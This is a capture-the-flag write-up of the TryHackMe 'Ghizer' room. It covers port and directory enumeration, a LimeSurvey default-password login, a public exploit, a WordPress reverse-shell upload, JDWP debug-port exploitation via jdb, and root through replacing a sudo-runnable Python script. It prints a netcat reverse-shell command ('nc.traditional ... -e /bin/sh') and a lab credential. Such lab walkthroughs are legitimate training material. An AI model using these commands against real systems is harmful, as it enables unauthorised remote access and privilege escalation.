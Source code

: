 # 51 - Ghizer (java-rmi/java rmi, JDWP Debug Port exploitation)

Room Link --> [https://tryhackme.com/room/ghizerctf](https://tryhackme.com/room/ghizerctf)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -v 10.10.160.244 -p- -sV

Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE    SERVICE    VERSION
21/tcp    open     ftp?
80/tcp    open     http       Apache httpd 2.4.18 ((Ubuntu))
443/tcp   open     ssl/http   Apache httpd 2.4.18 ((Ubuntu))
18002/tcp open     java-rmi   Java RMI
35797/tcp open     java-rmi   Java RMI
44993/tcp open     tcpwrapped
```
{% endcode %}

#### Dirsearch enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
dirsearch -u http://10.10.160.244 -x 403 -w /usr/share/dirb/wordlists/common.txt -t 500 -x 503

/assets
/admin
/application
/docs
/framework
/installer
/index.php
/locale
/plugins
/server-status
/upload
/themes
/tmp
/tests
# all dead ends :(
```
{% endcode %}

The `/admin` dir. Googled default password for LimeSurvey and got `admin : password` .

And it worked.

<figure><img src=".gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Search for an exploit for the specific version on google and got: [https://www.exploit-db.com/exploits/46634](https://www.exploit-db.com/exploits/46634)

And we get access to a very limited shell.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Search for 'config.php' file.

{% code overflow="wrap" lineNumbers="true" %}
```bash
$ find / -type f -iname 'config.php' 2>/dev/null

$ cat /var/www/html/limesurvey/application/config/config.php
```
{% endcode %}

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`Anny :  P4$W0RD!!#S3CUr3!` .

#### Wordpress enum

Goto the webserver on port 443: `https://10.10.160.244/` - we get the wordpress site, clicking on the login, and we get redirected to the login panel.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can upload a reverse shell in zip format in order to get a rev shell.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Veronica

We use “**linpeas.sh**” script and we enumerated connections in use of **ghidraDebug** with **Veronica** user.

<figure><img src="https://1.bp.blogspot.com/-11q8WG15zDo/X7irvP-1DRI/AAAAAAAAq30/ETruuKRub1kPHc-TLgbk14heRi0lMvw1gCLcBGAsYHQ/s16000/13.png" alt=""><figcaption></figcaption></figure>

We enumerate **GhidraDebug** service internal on port **18001**.

<figure><img src="https://1.bp.blogspot.com/-kjnBRfJ-I30/X7ir4R_RviI/AAAAAAAAq4A/HSOZQFjbyegl_ImA-Fw9LRI12_PXzRk6wCLcBGAsYHQ/s16000/14.png" alt=""><figcaption></figcaption></figure>

We exploit it from the victim box.

{% code overflow="wrap" %}
```bash
jdb -attach 127.0.0.1:18001
classpath
classes
stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
# wait for a "Logj2-Tf" terminal.
print new java.lang.Runtime().exec("nc.traditional 10.18.88.214 9001 -e /bin/sh")

# setup nc listener.
nc -nvlp 9001
```
{% endcode %}

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Root

`sudo -l` - there is the `env-reset` also, meaning we can create new env path for files.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can execute this cmd as root. We cant modify the file but we can delete it and replace it with a modified one to get root.

{% code overflow="wrap" %}
```bash
veronica@ubuntu:~$ rm -rf /home/veronica/base.py
veronica@ubuntu:~$ echo 'import pty;pty.spawn("/bin/bash")' > base.py
veronica@ubuntu:~$ sudo -u root /usr/bin/python3.5 /home/veronica/base.py
root@ubuntu:~# 
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Done !


